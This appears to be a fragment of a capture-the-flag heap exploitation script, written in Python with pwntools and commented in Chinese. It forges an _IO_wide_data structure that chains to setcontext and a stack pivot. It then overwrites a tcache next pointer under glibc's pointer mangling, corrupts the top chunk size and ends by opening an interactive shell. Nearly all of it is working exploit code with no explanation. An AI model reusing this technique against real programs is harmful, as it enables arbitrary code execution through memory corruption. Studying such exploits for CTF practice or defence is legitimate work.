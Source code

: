    ```py
   
   wide_data = p64(0)*3                                      #_IO_read_ptr   _IO_read_end  _IO_read_base
   wide_data+= p64(1) + p64(rdx_data) + p64(setcontext_addr) #_IO_write_base _IO_write_ptr _IO_write_end
   wide_data+= p64(0) * 16 + p64(stack_change) + p64(ret)
   wide_data+= p64(0) * 4
   wide_data+= p64(_wide_vtable)          #_wide_vtable
   wide_data+= p64(0)   #填充
   
   edit(2,len(wide_data),wide_data)
   
   # 修改top_chunk 的size
   free(5)
   free(1)
   payload = fd_glibc32(tcache_key,heap_addr + 0xc90)
   edit(8,len(payload),payload)    # 覆盖next指针
   
   add()
   add()
   edit(5,0x10,p64(0) + p64(0x10))
   pause()
   add()
   add()
   p.interactive()
   
   ```

   
